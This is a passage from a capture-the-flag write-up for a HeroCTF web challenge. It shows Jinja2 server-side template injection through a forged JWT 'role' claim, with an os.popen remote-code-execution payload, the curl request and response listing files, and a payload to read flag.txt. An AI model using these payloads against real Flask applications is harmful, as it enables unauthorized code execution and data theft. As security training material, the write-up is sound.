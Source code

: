 ```bash
39;: None, &#39;JSONIFY_MIMETYPE&#39;: None, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;'
```

The injection works, so we can execute arbitrary code and try to retrieve the flag.

### Retrieving the Flag

By exploring a bit of [SSTI Python on Hacktrickz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python), I found a payload that allows executing an RCE that is not dependent on the version of `__builtins__`:

```bash
{
    "role": "{{ cycler.__init__.__globals__.os.popen('ls').read() }}"
}
```

![JWT RCE](/images/heroctfv5/web/flask_jwt_ls.png)

```bash
curl 'http://dyn-06.heroctf.fr:13825/adminPage' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3sgY3ljbGVyLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdscycpLnJlYWQoKSB9fSJ9.W716rVf0D1fAibR2HP0_7cGFxYhz0EL8hFKe1i58JQs' -v
*   Trying 139.162.183.244:13825...
* Connected to dyn-06.heroctf.fr (139.162.183.244) port 13825 (#0)
> GET /adminPage HTTP/1.1
> Host: dyn-06.heroctf.fr:13825
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3sgY3ljbGVyLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdscycpLnJlYWQoKSB9fSJ9.W716rVf0D1fAibR2HP0_7cGFxYhz0EL8hFKe1i58JQs
>
< HTTP/1.1 403 FORBIDDEN
< Server: Werkzeug/2.3.4 Python/3.10.6
< Date: Sun, 14 May 2023 01:27:41 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 65
< Connection: close
<
Sorry but you can't access this page, you're a 'app.py
flag.txt
* Closing connection 0
'
```

There are two files in the current directory, `app.py` and `flag.txt`. So, we can retrieve the flag using the following payload:

```bash
{
    "role": "{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"
}
```
